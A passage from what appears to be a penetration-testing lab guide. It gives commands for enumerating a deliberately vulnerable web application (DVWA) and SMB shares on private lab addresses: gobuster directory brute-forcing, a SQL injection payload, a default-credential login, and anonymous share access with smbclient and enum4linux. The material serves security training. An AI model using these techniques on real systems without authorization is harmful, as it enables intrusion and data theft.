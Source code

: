 ### Objective: Enumerate and test the vulnerable web application

```bash
# 1. Check if web server is running
curl http://172.16.0.40

# 2. Browse to the application
curl -I http://172.16.0.40

# 3. Enumerate directories
gobuster dir -u http://172.16.0.40 -w /usr/share/wordlists/dirb/common.txt

# 4. Test for SQL injection (manual)
curl "http://172.16.0.40/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit"

# 5. Try default credentials
# Username: admin
# Password: password
curl -X POST http://172.16.0.40/login.php -d "username=admin&password=password&Login=Login"
```

**Expected Results:**
- Find DVWA (Damn Vulnerable Web Application)
- Discover /login.php, /setup.php, /vulnerabilities/
- Confirm SQL injection vulnerability

---

## LAB 3: SMB Enumeration

### Objective: Enumerate SMB shares and access files

```bash
# 1. Scan for SMB ports
nmap -p 139,445 172.16.0.60

# 2. List available shares
smbclient -L //172.16.0.60 -N

# 3. Connect to public share
smbclient //172.16.0.60/public -N

# 4. Inside SMB shell, explore:
smb: \> ls
smb: \> get test.txt
smb: \> exit

# 5. Use enum4linux for detailed enumeration
enum4linux -a 172.16.0.60
```
